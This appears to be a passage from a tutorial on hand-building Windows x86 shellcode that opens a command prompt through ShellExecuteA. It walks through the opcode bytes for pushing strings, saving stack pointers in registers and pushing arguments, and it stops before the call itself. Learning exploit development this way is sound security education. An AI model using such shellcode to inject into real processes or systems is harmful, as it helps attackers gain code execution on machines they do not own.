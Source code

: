 ## Creating our shellcode - To open a CMD

1. Calculate the opcodes to push the string 'cmd' and 'open'
```
   → "\x68\x63\x6d\x64"       // PUSH "cmd" onto the stack
   → "\x68\x6f\x70\x65\x6e" // PUSH "open" onto the stack
```

	Notice that the first PUSH is not 4 bytes and there isnt the string terminator at the end.
```
   → "\x68\x63\x6d\x64\x00"   // PUSH "cmd" and terminates the string with \x00 = now its 4 bytes
   →  "\x6A\x00"                      // PUSH 0: Terminates the string 'open' by directly pushing \x00 onto the stack
   → "\x68\x6f\x70\x65\x6e"   // PUSH "open"
```

- The ShellExecuteA function, require a pointer to theses strings, we will have to save a pointer to each string using a register.
- then we will save the current stack position into a register. When we push the string, ESP will be aligned to the top of the stack. Hence, it will point to the string itself.
- Storing this value in a register (such as EBX or ECX) allows us to save a pointer to that string. Then we will just have to pass the pointer as an argument of the function.
- To save the pointer into a register: after the push instruction of our shellcode
```
mov ebx, esp
```

### lets update our code
```
   → "\x68\x63\x6d\x64\x00"   // PUSH "cmd" and terminates the string with \x00 = now its 4 bytes
   → "\x8B\xDC"                       // MOV EBX, ESP
                                               // puts the pointer to the text "cmd" into ebx
   →  "\x6A\x00"                      // PUSH 0: string terminator For 'open'
   → "\x68\x6f\x70\x65\x6e"   // PUSH "open"
   → "\x8B\xCC"                      // MOV ECX, ESP
                                              // puts the pointer to the text 'open' into ecx
```

- looking at the assembled code, we have to pass +4 parameters, 0003
reverse order > 300 <our strings> 0
- There is several ways to execute a 'push 3' instruction:
```
	just push 3
	move the value to a register, then push the register itself
	zero out the register, then increment the register 3 times
	etc
```

```
"\x6A\x03" // PUSH 3
```
- now the zeros
```
"\x33\xc0"  // xor eax, eax => zero out the eax register
"\x50"        // push eax => pushes 0
"\x50"        // push eax => pushes 0
```
